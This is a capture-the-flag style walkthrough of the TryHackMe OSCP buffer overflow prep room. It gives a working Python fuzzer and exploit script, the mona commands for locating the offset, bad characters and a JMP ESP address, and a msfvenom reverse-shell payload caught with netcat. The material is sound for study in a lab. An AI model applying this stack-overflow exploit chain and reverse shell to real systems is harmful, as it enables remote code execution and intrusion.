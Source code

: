 
# Buffer Overflow Preparation for OSCP

Link to the room : https://tryhackme.com/room/bufferoverflowprep

My OS : Kali GNU/Linux 2021.2

## Accessing the machine and overview

I am told to access the target machine using RDP with given credentials :
```
xfreerdp /u:admin /p:password /cert:ignore /v:<TARGET IP> /workarea
```
After successfully accessing the machine I can get to work but before that we must know how the whole vulnerability works. A buffer overflow condition exists when 
a program attempts to put more data in a buffer than it can hold or when a program attempts to put data in a memory area past a buffer. In this case, a buffer is a 
sequential section of memory allocated to contain anything from a character string to an array of integers. Writing outside the bounds of a block of allocated memory 
can corrupt data, crash the program, or cause the execution of malicious code.

## OVERFLOWx Cheat Sheet
If we want to get a reverse shell using buffer overflow vulnerability we have to go through a few steps to get some information about this particular environment and use it 
with our exploit.py.

Here is content of fuzzer.py which will help us with getting information how long is our buffer :
```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.179.101"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
And here is content of our exploit.py which we will edit in future to get some more information and maybe the reverse shell if we succeed :
```
import socket

ip = "10.10.179.101"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

We can divide the whole process of getting the reverse shell into :
1. Connecting to the port 1337 with netcat and choosing the right OVERFLOW (just because our task is to work with 10 various configurations)
2. Setting up mona configuration
3. Fuzzing
4. Generating a cyclic pattern of a length $(string that crashed the server) + 400
5. Running exploit.py with payload variable set to a cyclic pattern
6. Using mona to find offset number 
7. Finding bad characters and getting rid of them
8. Finding a jump point
9. Generating payload and editing our exploit.py
10. Getting the reverse shell

## OVERFLOW 1
We will start by running our Immunity Debugger and loading oscp.exe. We should Debug->run it because its loaded in paused state and then connect via netcat and port 1337 to 
choose the first OVERFLOW.
```
nc 10.10.179.101 1337
HELP
OVERFLOW1 test
```
Then let's setup our mona working folder in Immunity Debugger :
```
!mona config -set workingfolder c:\mona\%p
```
And with that out of our way we can start exploiting. First we need to get the sense of how long is our buffer. If we run `fuzzer.py 10.10.179.101` after a while we can notice 
that the server crashed with 2000 bytes long payload. Lets generate now a 2400B long cyclic pattern and copy it into "payload" variable of our exploit.py.
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
Now we need to reopen our oscp.exe service and Debug->run it again. After running `python3 exploit.py` and crashing the server we can search for offset number in mona log 
window.
```
python3 exploit.py
!mona findmsp -distance 2400

output :
[...] 
EIP contains normal pattern : ... (offset 1978)
[...]
```
Update your exploit.py script with this value set as the offset variable. Now you can set the payload variable to an empty string again and the retn variable to "BBBB" so we can 
clearly see it in our logs (B is coded as 42 so we will see 42424242).

Next step is to find bad characters and we can do this by generating a bytearray using mona `!mona bytearray -b "\x00"` and excluding the null byte by default. Now we need to 
generate our own string of bad chars that is identical to the bytearray. The following script can be used :
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
Set the payload value of our exploit.py to the string of bad chars the script generates. 

As always we need to restart our oscp.exe in Immunity and run the modified exploit.py script again. By default you should see on the right top corner window named "Registers (FPU)" 
This one will help us to locate address to which the ESP register points and use it in the following mona command :
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP REGISTER ADDRESS>
```
A popup window should appear. The windows shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated 
bytearray.bin file. Not all of these might be badchars so we need to manually go through some of them and see if we can get rid of them. Sometimes badchars cause the next byte 
to get corrupted as well.

If the popup window don't appear there might be a problem with locating bytearray.bin file. You can try and set the working folder again, restart the process and then try to 
compare.


Possibly bad chars that I received : `07 08 2e 2f a0 a1` and now I should manually remove them from left to right. We will start with `\x07\` byte. First off you need to 
remove it from your payload variable in exploit.py and then add it onto your new bytearray generated in mona using :
```
!mona bytearrray -b "\x00\x07"
```
And keep doing it till you got no bad chars. I had to specify `\x00\x07\x2e\xa0` and after running `!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP REGISTER ADDRESS>` I had 
received information that `Hooray, normal shellcode unmodified!!!`. We can move into finding a jump point.


To find a jump point you need to run the command :
```
!mona jmp -r esp -cpb <ALL OF THE BAD CHARS>
```
in section <ALL OF THE BAD CHARS> you need to specify them including byte \x00. After running this command there will be a popup window called "Log data" with "Results:". In my 
case I had a total of 9 pointers. You can choose which ever you want but I will choose the first address `0x625011af` and put it into "retn" variable in exploit.py. For this 
example it should look like this :
```
offset = 1978
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
```
As you can see the retn variable is written backwards. Thats because system is little endian, you dont need to really know more than this. Another thing is that padding is set 
to "\x90" * 16. We need to do this because you will need some space in memory for the payload to unpack itself. Only thing that is left is to generate our payload using msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR IP> LPORT=445 EXITFUNC=thread -b <ALL BAD CHARS> -f c
```
and copying it into payload variable of our exploit.py. If everything is setup as I said you can restart your oscp.exe, run it and start listening with netcat on port 445. After 
executing exploit.py you should receive your reverse shell.
